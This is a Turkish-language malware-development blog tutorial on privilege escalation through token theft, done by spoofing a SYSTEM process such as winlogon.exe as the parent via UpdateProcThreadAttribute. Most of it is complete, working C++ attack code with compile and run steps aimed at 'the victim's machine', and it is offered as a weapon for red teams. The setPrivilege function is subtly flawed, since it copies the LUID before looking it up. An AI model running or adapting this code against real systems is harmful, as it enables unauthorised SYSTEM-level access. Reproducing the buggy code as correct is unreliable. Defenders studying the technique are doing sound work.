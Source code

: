 \newpage
\subsection{83. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 17 - APT teknikleri:  
UpdateProcThreadAttribute aracılığıyla belirteç hırsızlığı. Basit C++ örneği.}

﷽

Merhaba, siber güvenlik meraklıları ve beyaz şapkalı hackerlar!     

![token](./images/77/2022-10-29_03-59.png){:class="img-responsive"}    

Bu gönderi, kendi araştırmalarımın bir sonucu olup, en ilginç APT tekniklerinden biri olan UpdateProcThreadAttribute aracılığıyla belirteç hırsızlığını ele almaktadır.    

[Önceki](https://cocomelonc.github.io/tutorial/2022/09/25/token-theft-1.html) gönderimde, `DuplicateTokenEx` ve `CreateProcessWithTokenW` kullanarak klasik belirteç hırsızlığından bahsetmiştim. Bugün, Windows Vista’dan itibaren çalışan alternatif bir yöntemi anlatacağım.   

### UpdateProcThreadAttribute

Eğitimimin ilk bölümünde, klasik bir numara uyguluyoruz: `SE_DEBUG_PRIVILEGE`'i etkinleştiriyoruz, herhangi bir sistem sürecinin belirtecini açıyoruz (korunan işlemler için bile çalışır), belirteci çoğaltıyoruz, ayrıcalıkları ayarlıyoruz ve ardından bu belirteçle kimliğe bürünüyoruz.     

Bugün daha basit bir numara kullanabiliriz. Microsoft, Vista'da yeni bir işlem oluştururken açıkça bir üst işlem belirleme yeteneğini uyguladı ve bu sayede yükseltilmiş işlem, çağıran işlemin bir alt süreci olarak kalabiliyor.   

Genellikle, UAC örneğinde, yeni sürece açıkça bir belirteç vermeniz gerekir. Eğer bir belirteç sağlamazsanız, yeni süreç belirlenen üst süreçten devralır.Tek şart, üst sürecin tutamacının `PROCESS_CREATE_PROCESS` erişim ayrıcalığına sahip olmasıdır.

Bu yüzden, sadece bir sistem sürecini `PROCESS_CREATE_PROCESS` erişim hakkı ile açıyoruz. Daha sonra bu tutamacı `UpdateProcThreadAttribute` ile kullanıyoruz. Sonuç olarak, süreciniz sistem sürecinden bir belirteç devralır.     

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD                        dwFlags,
  DWORD_PTR                    Attribute,
  PVOID                        lpValue,
  SIZE_T                       cbSize,
  PVOID                        lpPreviousValue,
  PSIZE_T                      lpReturnSize
);
```

Ve bunun çalışması için tek ihtiyacınız olan şey `SE_DEBUG_PRIVILEGE`'dir.    

### teknik. pratik örnek

Öncelikle, bazen mevcut ayrıcalık kümenizde `SeDebugPrivilege`'i etkinleştirmeniz gerekir:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Ardından, erişim belirtecini çalmak istediğiniz süreci `PROCESS_CREATE_PROCESS` erişim haklarıyla açın:    

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

Daha sonra, `UpdateProcThreadAttribute` ile bu tutamacı kullanın:    

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

Son olarak, süreci oluşturun:     

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

Bu mantığın tam kaynak kodu şu şekildedir:       

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;
}

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;
}
```

Gördüğünüz gibi, kod önceki bölümden biraz farklıdır. Bu kod yalnızca kirli bir PoC olup, basitlik adına `mspaint.exe`'yi çalıştırıyorum.      

### demo

Her şeyi çalışırken görelim. PoC'mizi derleyelim:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![token](./images/77/2022-10-29_03-48.png){:class="img-responsive"}    

Ardından, bunu kurbanın makinesinde çalıştıralım:    

```powershell
.\hack.exe <PID>
```

![token](./images/77/2022-10-29_03-56.png){:class="img-responsive"}    

Örneğin, `winlogon.exe` (`PID: 544`) erişim belirtecini çalabilirsiniz:     

![token](./images/77/2022-10-29_03-57.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-58.png){:class="img-responsive"}    

![token](./images/77/2022-10-29_03-59_1.png){:class="img-responsive"}    

Gördüğünüz gibi, her şey mükemmel çalışıyor!     

Bu gönderinin en azından siber güvenlik alanına yeni başlayanlar (ve muhtemelen profesyoneller) için biraz faydalı olmasını, ayrıca mavi takım üyelerine bu ilginç teknik hakkında farkındalık kazandırmasını ve kırmızı takım üyelerinin cephaneliğine bir silah eklemesini umuyorum.     

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)       
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)     
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)    
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)     
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)    
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)       
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)        
